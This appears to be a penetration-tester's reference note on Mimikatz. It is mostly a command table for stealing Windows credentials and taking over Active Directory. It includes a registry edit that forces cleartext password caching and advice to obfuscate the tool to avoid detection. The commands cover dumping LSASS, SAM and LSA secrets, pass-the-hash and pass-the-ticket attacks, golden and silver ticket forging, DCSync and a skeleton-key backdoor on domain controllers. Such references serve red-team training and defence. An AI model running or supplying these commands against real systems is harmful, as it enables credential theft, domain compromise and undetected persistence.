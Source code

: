 Mimikatz is a windows tool used to enumerate passwords and hashes from the Windows SAM, which can be acquired by Mimikatz or via a process dump by [[Procdump]] or in Task Manager , and from LSASS. It can further be used to abuse the Kerberos protocol by impersonating users via tickets or password hashes. 

> [!danger] Detection Risk 
> Mimikatz is well signatured. This must be obfuscated or otherwise disguised before running, as with most tools. 

Mimikatz is run as an executable and prompts the user with a command line interface.

Enable WDigest (cleartext in-memory) credentials with the following registry edit:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
Enabling them will cache them in memory when a user logs in. It will not affect users already logged into the system. 

| Mimikatz Command                                                                                                                                                                                                               | Description                                                                                                                                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `privilege::debug`                                                                                                                                                                                                             | Check for SeDebugPrivilege availability in current session                                                                                                               |
| `sekurlsa::msv`                                                                                                                                                                                                                | Pull password hashes from LSASS memory via injection.                                                                                                                    |
| `sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`                                                                                                                                                                     | Perform a Pass-The-Hash attack to impersonate a new user                                                                                                                 |
| `sekurlsa::logonPasswords`                                                                                                                                                                                                     | Get passwords and hashes by any means possible (cleartext creds require WDigest to be enabled)                                                                           |
| `sekurlsa::minidump \<dumpfile\>`                                                                                                                                                                                              | Examine a specific .dmp file gnerated via procdump or TM                                                                                                                 |
| `sekurlsa::ekeys`                                                                                                                                                                                                              | List Kerberos encryption keys                                                                                                                                            |
| `sekurlsa::dpapi`                                                                                                                                                                                                              | List DPAPI master keys for browser-stored credentials and the Windows Credential Vault                                                                                   |
| `sekurlsa::tickets /export`                                                                                                                                                                                                    | Export Kerberos tickets in memory to files for PTT.                                                                                                                      |
| `kerberos::ptt <ticket>`                                                                                                                                                                                                       | Perform PTT attack and store a provided ticket in memory. (Verify with `klist` outside of mimikatz)                                                                      |
| `kerberos::golden /user:<your username> /domain:<domain> /sid:<SID> /krbtgt:<KRBTGT hash from lsa (golden only)> /service:<service name (silver only) /rc4:<Service NTLM hash (silver only)> /id:<500 (golden)/1103 (silver)>` | Create a golden or silver ticket with Mimikatz and add it to your mimikatz session.                                                                                      |
| `lsadump::sam`                                                                                                                                                                                                                 | Dump the SAM                                                                                                                                                             |
| `lsadump::dcsync /domain:contoso.local /user:adminisrtator@contoso.local`                                                                                                                                                      | Request a DC sync to acquire the NTLM (or RC4 decrypted) hash for the given user. Must be run in the context of a user with DCSync rights.                               |
| `lsadump::cache`                                                                                                                                                                                                               | Load cached credentials from the registry                                                                                                                                |
| `lsadump::lsa /inject /name:krbtgt`                                                                                                                                                                                            | Dump the KRBTGT for creating Golden Tickets. Change `krbtgt` to a service account or DA to make a silver ticket.                                                         |
| `lsadump::secrets`                                                                                                                                                                                                             | Dump secrets on host, including active TGTs in memory owned by service accounts and cleartext credentials for logged-in users.                                           |
| `vault::list`                                                                                                                                                                                                                  | List the vaults on a system                                                                                                                                              |
| `vault:cred`                                                                                                                                                                                                                   | List credentials in a vault                                                                                                                                              |
| `misc::cmd`                                                                                                                                                                                                                    | Open an elevated command prompt with the privileges/tickets currently obtained.                                                                                          |
| `misc::skeleton`                                                                                                                                                                                                               | Inject a skeleton key backdoor into the forest's memory. From here, you may use the password 'mimikatz' with any user in the domain. Must be run on a domain controller. |
| `dpapi:masterkey /in:<credential> /rpc`                                                                                                                                                                                        | Request DPAPI Credential Vault key from AD DC                                                                                                                            |
| `dpapi:cred /in:<credential> /masterkey:<key>`                                                                                                                                                                                 | Decrypt DPAPI Windows Credential with key                                                                                                                                |
| `dpapi:cred /in:<cred>`                                                                                                                                                                                                        | Show GUID of master key used to encrypt.                                                                                                                                 |

See also: [[Pypykatz]]
